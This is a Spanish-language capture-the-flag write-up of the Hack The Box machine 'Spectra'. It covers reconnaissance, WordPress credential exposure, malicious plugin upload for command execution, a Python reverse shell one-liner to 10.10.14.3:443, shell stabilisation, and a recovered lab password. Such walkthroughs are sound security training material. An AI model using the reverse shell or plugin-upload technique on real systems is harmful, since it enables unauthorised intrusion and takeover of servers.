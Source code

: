 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Spectra</h1>

# ÍNDICE

# INTRODUCCIÓN

Spectra es una máquina linux de dificultad fácil el que contiene un software de tracking construido en Wordpress. Este servidor lista un directorio con credenciales en el cual ganaremos acceso al manager de administrador. Construyendo un plugin malicioso

Enumerando unas nuevas credenciales y capturandolas para coger otoro usuario. Finalmente un problema de configuración permite hacer acciones de sudo en los servicios y ganado el root.

Primero de todo tes de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/0607b6f2-0635-4c7b-8aec-8c8292e95689)

Escaner de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/b4391565-6aa4-4a3d-b862-e2e3d3cfe930)

Como podemos ver nos encontramos cono un servicio SSH, Nginx y un MySQL en los puertos por defecto. No hemos mencionado que la versión de nginx es vulnerable a RCE

Podemos irnos al puerto 80 y ver la página y veremos a que tenemos acceso

![image](https://github.com/D4l1-web/HTB/assets/79869523/dd1fc5e4-d199-4667-abdb-dc10130caf2e)

Nos encontramos si busacmos en el dominio "spectra.htb"

```
echo "ip spectra.htb" | sudo tee -a /etc/hosts
```

Si nos vamos al dominio encontramos esto 

![image](https://github.com/D4l1-web/HTB/assets/79869523/0e565c34-c008-472a-8578-0db391ea019a)

Encontramos el directorio /testing/ que es importante

![image](https://github.com/D4l1-web/HTB/assets/79869523/d707a2a2-45aa-4fc3-a082-ca99668b4b95)

De todo la vida el wp-config.php estan las credenciales veamos, vemos que ha sido editado y hay otro archivo con un .save

![image](https://github.com/D4l1-web/HTB/assets/79869523/c47fc130-5897-4bb0-8ff0-33f2452a17cb)

Si probamos con las credenciales que nos dan nos da error, pero si en el usuario ponemos "administrator" nos deja entrar 

![image](https://github.com/D4l1-web/HTB/assets/79869523/98e19537-2512-4f59-ba44-a583b95a95bc)

Teniendo privilegios de administrador en una instancia de Worpress, hace que tengamos muchas tecnicas que puedan dar una ejecución de comando en el servidor. Un metodo es subir un plugin malicioso y guardarlo como wp-maintenance.php

![image](https://github.com/D4l1-web/HTB/assets/79869523/68907b04-ab02-42a7-83c3-63ad4b1a6163)

Una vez creado el archivo podemos irnos a plugins y añadir uno elegir el archivo e instalarlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/28fbafb1-3d32-45b1-8d02-8a2d8d844f90)

Nos da error vamos a probar a comprimirlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/277ebbf7-5426-44bb-a527-4a1740b57de9)

![image](https://github.com/D4l1-web/HTB/assets/79869523/f674863f-cea3-4929-b0db-7020f94287e3)

![image](https://github.com/D4l1-web/HTB/assets/79869523/7dc8fd01-cd5a-4247-9aaa-1af07ad94934)

Ahora nosotros podemos navegar a esa url y probar si podemos ejecutar comandos

![image](https://github.com/D4l1-web/HTB/assets/79869523/8e40edb7-f7d7-42b2-bf80-cab642dee3fd)

Podemos hacer una revershe shell con python

```
cmd=python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.
10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Nos conectamos y conseguimos una buena shell

```
# In the reverse shell
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
# In Parrot
stty raw -echo
fg
reset
xterm
# In the reverse shell
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 150
```

Si hacemos una enumeracion por /home/user/ podemos encontrar archivos de usuarios y hashes también tneemos backups dentro de /backups/user_profiles que pueden leer los usuarios

Vamos a hacer enumeraciones de servicio como ftp 
```
grep -R ftp://
```

encontramos un 00089.log y le hacemos cat, encontramos una contraseña del usuario katie
```
ssh katie@ip
```
Tambien tenemos otro archivo que nos dice literalmente la pass en la ruta /etc/autologin/passwd

```
SummerHereWeCome!!
```











